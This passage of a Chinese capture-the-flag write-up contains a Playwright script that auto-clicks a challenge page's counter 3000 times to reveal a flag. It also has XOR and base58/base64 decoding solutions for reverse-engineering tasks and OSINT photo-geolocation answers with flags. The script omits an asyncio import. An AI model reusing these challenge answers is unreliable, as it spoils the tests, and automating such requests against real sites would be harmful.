from playwright.async_api import async_playwright

async def main():
    async with async_playwright() as p:
        browser = await p.chromium.launch(headless=False)
        page = await browser.new_page()
        
        # 导航到目标页面
        await page.goto('http://ctf.ctbu.edu.cn:33271/')
        
        print("开始自动点击...")
        
        count = 0
        max_count = 3000
        
        # 循环点击直到计数达到3000
        while count < max_count:
            # 获取当前计数值
            count_text = await page.text_content('.counter')
            count = int(count_text.split(': ')[1])
            
            print(f"当前计数: {count}")
            
            # 如果已经达到目标，退出循环
            if count >= max_count:
                break
                
            # 点击增加计数按钮
            await page.click('button.btn')
            
            # 等待一小段时间，避免请求过于频繁
            await asyncio.sleep(0.1)
        # 构造 payload:
        # 检查是否成功获取flag
        flag_element = await page.query_selector('.flag')
        if flag_element:
            flag = await flag_element.text_content()
            print(f"成功获取flag: {flag}")
        else:
            # 如果没有找到flag元素，检查页面内容
            content = await page.content()
            if "flag" in content.lower() or "FLAG" in content:
                # 查找可能包含flag的文本
                print("可能在页面中找到了flag，请检查完整响应:")
                print(content)
            else:
                print("未找到flag，请手动检查页面")
        
if __name__ == '__main__':
    asyncio.run(main())

```

# Reverse

### ez_py

此代码有一个 `enc` 表，用于计算真实的flag，代码逻辑为：

对于每个索引位：

第0,3,6,9…位： `key = (i + 12) XOR 199`

第1,4,7,10…位： `key = (i + 11) XOR 127`

第2,5,8,11…位： `key = (i + 10) XOR 238`

然后验证： `result = (key + 15) XOR input`

可编写逆向代码：

```python
enc = [167, 120, 247, 183, 366, 197, 146, 11, 146, 140,
       26, 146, 245, 74, 210, 166, 123, 235, 228, 86,
       210, 166, 22, 201, 136, 102, 145, 132, 67, 5]
flag_str = 'flag{7h1s_1s_n07_4_r341_f14g!}'

input_chars = []
for i in range(len(enc)):
    # 计算key
    if i % 3 == 0:
        key = ((ord(flag_str[i])) + 0xc) ^ 0xc7
    elif i % 3 == 1:
        key = ((ord(flag_str[i])) + 0xb) ^ 0x7f
    elif i % 3 == 2:
        key = ((ord(flag_str[i])) + 0xa) ^ 0xee
        
    # 计算ord(input[i])
    # result = (key + 0xf) ^ ord(input[i]) = enc[i]
    # 所以 ord(input[i]) = (key + 0xf) ^ enc[i]
    c = (key + 0xf) ^ enc[i]
    input_chars.append(chr(c))

input_str = ''.join(input_chars)
print(input_str)

```

执行后获得flag。

### ez_py_revenge

使用 `file` 命令查看文件类型，发现为Python字节码，将字节码丢进反编译器获得原始代码。


可见该代码逻辑为：读取含flag的文件—使用 `bytes_to_long` 函数转为长整数--使用base58编码--使用base64编码--与现有字符串比较。

故将该代码里的base64字符串进行逆向操作：解码base64—解码base58—使用 `long_to_bytes` 函数，即可还原flag.

### 逆向入门指南

将附件的exe用IDA打开，双击 `main` 函数，点击View-Open Subviews-Generate pseudocode，查看伪代码，即可找到下部分flag


# OSINT

### **网络迷踪擂台赛 XIII：PP同学历险记Ⅱ 峡谷漫步**

将图片使用小红书搜图，


看到“雅安碧峰峡”与图片接近，构造flag：

```
coctf{四川省_雅安市_雨城区_碧峰峡景区}
```

### **网络迷踪擂台赛 XⅣ：交汇之心**

放大图片，可见明显的两大块绿色文字，这是重庆轨道交通(CRT)的标志。


再根据轻轨列车的颜色可知该线路为 CRT 3号线。


图片左侧可见“星豪连锁酒店”字样，在地图软件上搜索。


可见该位于渝北区金童路的酒店完全符合图中状况（北部为3号线轻轨站，有十字路口）。

构造flag：

```
coctf{重庆市_渝北区_金童路}
```

### **网络迷踪擂台赛 Ⅷ：莲花湖**

同样使用小红书搜图，


定位该湖位于武汉东湖听涛景区。小红书搜索“东湖”，发现离听涛景区最近的为 **梨园**。


构造flag：

```
coctf{湖北省_武汉市_武昌区_东湖梨园}
```

### **网络迷踪擂台赛 Ⅸ：演唱会**

放大图片可见明显“鸟巢”字样，鸟巢位于北京市朝阳区国家体育场南路。


网络搜索“鸟巢 演唱会” 找到信息，


由于时间在9月，故可确定为陶喆的演唱会。

因此构造flag为：

```python
coctf{北京市_朝阳区_国家体育场南路_陶喆}
```

### **网络迷踪擂台赛 Ⅹ：Bar**

题目提示为2023年，图片包含”HackingClub”字样。

网络查找2023年的HackingClub活动，找到一篇微信公众号文章：[郑州集结｜HackingClub 2023城市沙龙郑州站首秀等你来嗨！](https://mp.weixin.qq.com/s?__biz=MzAxNzg3NzMyNQ==&mid=2247486440&idx=1&sn=31f1d2f835e11d2eba648eb351f5b69d&chksm=9bdf9bcaaca812dca524905b8b3b6dc340d7f7dc8af0835cef750997650fa78c79d6e39454b3#rd)


可知该店位于农科路，地图软件上查找可知其位于河南省郑州市金水区。

构造flag：

```
coctf{河南省_郑州市_金水区_农科路_漫香音乐酒吧}
```